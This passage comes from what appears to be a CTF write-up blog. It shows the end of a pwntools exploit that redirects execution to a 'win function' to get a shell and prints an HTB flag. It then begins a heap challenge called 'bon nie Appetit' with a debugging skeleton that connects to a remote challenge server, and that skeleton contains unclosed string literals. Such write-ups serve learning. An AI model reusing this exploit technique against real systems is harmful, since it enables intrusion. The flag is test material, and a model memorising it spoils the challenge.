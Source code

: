 ```python
payload += p64(elf.sym.unlock_storage) # win function 

r.sendline(b"3")
r.recvuntil(b"Are you sure that you want to make an offer(y/n)")
r.sendline(b"y")
r.sendlineafter(b"your offer to be?", str(0x58))
r.sendafter(b"What can you offer me?", payload) #call RDX at buf + 0x48

#execute, calling 1 
r.recvuntil(b"What do you want to do?")
#shell
r.sendline(b"1")

#HTB{tr1ck1ng_d3al3rz_f0r_fUn_4nd_pr0f1t}
#========= interactive ====================
r.interactive()
```
## bon nie Appetit

I love heap challenges, so I really enjoy this one. I did similar challenges on some CTFs before, but still, this was an excellent opportunity to write about it. The binary has full protections.

![](https://raw.githubusercontent.com/dplastico/dplastico.github.io/main/_posts/img/2022-05-25-14-21-08.png)

And it's running libc 2.27

![](https://raw.githubusercontent.com/dplastico/dplastico.github.io/main/_posts/img/2022-05-25-14-21-45.png)


I immediately noticed that this looked like a *"note"* challenge, so as usual, before anything and to speed up debugging, I created a skeleton with the functions so I could easily use python with GDB to debug. This is something that I recommend doing on this kind of challenge. You can find the skeleton below:

```python
#!/usr/bin/python3
from pwn import *
gs = '''
continue
'''
elf = context.binary = ELF('./bon-nie-appetit')
libc = elf.libc
context.terminal = ['tmux', 'splitw', '-hp', '70']
index = 0

def start():
    if args.GDB:
        return gdb.debug('./bon-nie-appetite, gdbscript=gs)
    if args.REMOTE:
        return remote('178.62.43.214',31141)
    else:
        return process('./bon-nie-appetite)
```